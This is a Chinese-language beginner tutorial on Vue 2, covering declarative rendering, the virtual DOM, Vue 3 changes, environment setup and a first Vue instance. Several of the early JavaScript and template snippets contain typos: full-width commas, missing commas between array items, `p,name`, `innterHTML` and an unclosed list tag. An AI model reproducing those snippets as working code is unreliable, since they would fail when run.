# vue2

[TOC]


## 一、vue简介

Vue是官网：https://cn.vuejs.org/

官网上的学习文档与api文档都是值得学习的，该内容就不详细说明其情况了。



Vue是什么？官网上直接说明了它是一套用于快速**构建用户界面**的<strong style="color:red">渐进式</strong>`JavaScript框架`。

+ 构建用户界面，指的就是将得到的页面数据通过相关的方式转化为一个网页界面。
+ **渐进式**，指的就是Vue是可以**自底向上逐层**的应用，对于简单的应用只需要引用轻量小巧的核心库`vue.js`就可使用vue，对于复杂的应用则可以引入**各式各样的Vue插件**。因此vue既可以满足小巧的应用也可配合各种插件满足完成大型应用。
+ vue本质上就是一个**JavaScript框架**，跟**recat**或**angular**是相似的东西。
+ vue的发明人尤雨溪(老二次元)，受到Angular框架启发开发的vue，vue2代号攻壳特工队，vue3的代号是one piece

Vue的三大特点(这是Vue2的，Vue3有新的内容)：

1. 采用**组件化**模式，提高代码复用率且让代码更好维护。所谓组件化就是**一个页面内容对应一个Vue文件（相当于HTML+CSS+JS的组合）**，该文件包含页面全部内容，其他人复制Vue文件就可以直接完成相同的页面内容；
2. 采用**声明式编码**，让编码人员**无需直接操作DOM**,提高开发效率；
3. 使用**虚拟DOM**与优秀的**Diff算法**，完成DOM节点的复用；

组件化模式案例如下：



要理解声明式编码与虚拟DOM,需结合实际案例，案例如下

数据准备，该内容vue与js写法是相似的

```js
//展示数据的html容器
<ul id="list"></ul>
<script type="text/javascript">
    //数据
    let persons = [
        {id:'001',name:'张三'，age:18}
        {id:'002',name:'李四'，age:19}
        {id:'003',name:'王五'，age:20}
    ]
</script>
```

js的写法为**命令式编码**，就是按照固定流程，编写代码，该写法虽然可以实现数据在页面上的展示，但写法过于复杂，且需要**亲自操作DOM**，往往容易错误且效率不高。

```js
//准备html字符串
let htmlStr = ''
//遍历数据拼接html字符串
persons.forEach(p=>{
	htmlStr+=`<li>${p.id}-${p,name}-${p.age}</li>`
});
//获取list元素
let list =document.getElementById('list')
//修改内容(亲自操作DOM)
list.innterHTML=htmlStr
```

vue**声明式写法**就只需要关注数据如何展示与定义即可，不必再亲自操作DOM，vue自动就帮我们完成了代码转化。

```vue
<ul id='list'>
	<li v-for="p in persons">
	  {{p.id}}-{{p.name}}-{{p.age}}
	</li>
<ul>
```

上述的内容写好后，Vue会自动分析，将其内容转化为html展示的代码，完成页面的渲染。

Vue完成渲染的过程与js并不一样，js是直接将数据渲染的页面DOM中。而Vue则是会先渲染的它内部的**虚拟DOM**,然后再渲染的页面DOM中。

js原生的渲染流程，其缺点就是每次数据更改，都会**把数据全部重新渲染**，其中包括已经渲染了的相同的内容。



vue的渲染流程，其**虚拟DOM**就起到缓存的效果，Diff算法就是**找出虚拟DOM变化的内容进行渲染**，不变的就直接复用。




vue目前有两大版本，vue2.0是以前的版本，vue3.0是2020年9月18号发表的，相比于2.0，不仅性能提升更大，打包也更小加载速度更快。

3.0的源码也得到了升级：

+ 使用`Proxy`代替`defineProperty`实现响应式,
+ 重写`虚拟DOM`的实现和`Tree-Shaking`,
+ 拥抱了**TypeScript**，使得代码功能更强,
+ 新的特性：Composition API(又称组合api),
+ 新内置组件：Fragment、Teleport、Suspense等,
+ 新的生命周期钩子、**data选项应始终被声明为一个函数**以及移除`keyCode`支持作为`v-on`的修饰符

## 二、Vue2基础

### 2.1 Vue2的简介

Vue2是非常经典的版本，学习它可以让我们更好的了解Vue的原理。它的文档内容或api与Vue3并不相同，但也值得学习。

Vue2的官网为：https://v2.cn.vuejs.org/v2/guide

Vue2官网的资源列表中有**awesomevue**,它其实就是Vue的代码库，其中有很多成熟的案例，比如要完成报表功能就可直接下载**awesomevue**的内容直接使用。其github网站地址为：https://github.com/vuejs/awesome-vue



### 2.2 Vue2的环境搭建

搭建vue2环境的方式有两种：

+ **npm**指令方式，也就是利用**vue-cli**脚手架直接搭建vue项目，这个后面再说。
+ **script**引入的方式，其就是再vue2官网下载`vue.js`的核心文件，在html页面中直接引入使用



**vue核心代码就是vue.js**，其开发版与生产版的区别为：开发版会有代码错误提示，生产版是直接用于线上代码的，它内容比开发版少很多。

下载好的vue代码如下：



使用VSCode工具中创建Vue最简单的项目就只有一个`index.html`，并引入**开发版本的vue**。

在创建项目前，为了更好的开发Vue,先安装几个插件，可以帮助我们的vsCode可以更好的开发Vue



创建项目，其结构如下



引入Vue代码后，使用live Server启动网页，这样它会在一个5500端口启动网页应用



要解决上述警告很简单，安装**Vue-devtools**工具，它是一个**浏览器插件**，如果安装6.6以后的版本，可能不支持Vue2,因此我们安装6.5版本



安装**Vue-devtools**工具在后续开发很重要，所有必须安装，其安装完成后的效果如下：



解决开发版本警告，需了解其产生的原因，查看`Vue.config`全局配置属性对象



因此要解决该文件，只需要将该属性设置为`false`即可或者设置为生产版本即可。



如果**按住shift键+刷新键**进行**强制刷新**，这时会发现一个图标错误



要解决该问题，只需要在项目根目录下放置图标文件即可，名字一定为**favicon.ico**。

注意：路径形式为什么是**网址加5500端口**，该效果是live server工具完成的，该工具将本地项目文件发布到本地的5500端口，访问**127.0.0.1：5500**端口就可以看到全部的项目文件。



至此，Vue的开发环境就基本配置完成。

### 2.3 Vue2初始项目

想让Vue工作其步骤为：

1. 必须创建一个**【Vue实例】**，并与之配置一个容器对象;
2. 容器对象的代码依然是Html语法规范，只不过混入了一些Vue语法,容器对象里的代码就是**【Vue模板】**。

Vue工作原理就是:<strong style="color:red">Vue解析Vue模板中的语法内容，分析Vue实例中的数据，将其转化为模板需要的对应数据，最后结合数据与Vue模板生成出带有Vue数据的Html代码替换原本的Html内容</strong>

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>hello-Vue2</title>
    <!-- 引入Vue,引入开发版本 -->
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
    <!-- 1. 准备一个容器 -->
    <div id="root">
      <!-- {{}}是vue的插值语法，它展示的是变化的vue数据 -->
      <h1>hello,{{name}}——{{age}}</h1>
   </div>
   <script type="text/javascript">
    //配置关闭开发版本提示信息
    Vue.config.productionTip=false
       
    //2. 创建Vue实例，其参数只有一个就是对象，我们管这种对象叫做配置对象
    const x=new Vue({
      //el指定Vue实例绑定的容器，值通常是css选择器字符串,这里使用的是id选择器
      el:'#root',//是另一种写法:el:document.getElementById('root')的简写形式
      //data中用于存储数据，数据供el所指定的容器去使用
      data:{
        name:'Vue',
        age:2
      }
    })
   </script>
</body>
</html>
```

运行的效果



扩展上述案例，让两个容器同时绑定一个Vue对象(案例中使用类查找的方式绑定)，最终效果只有第一个容器有效。



与之对应，让一个容器同时绑定两个Vue对象，同样也是只有第一个绑定的Vue对象才有效

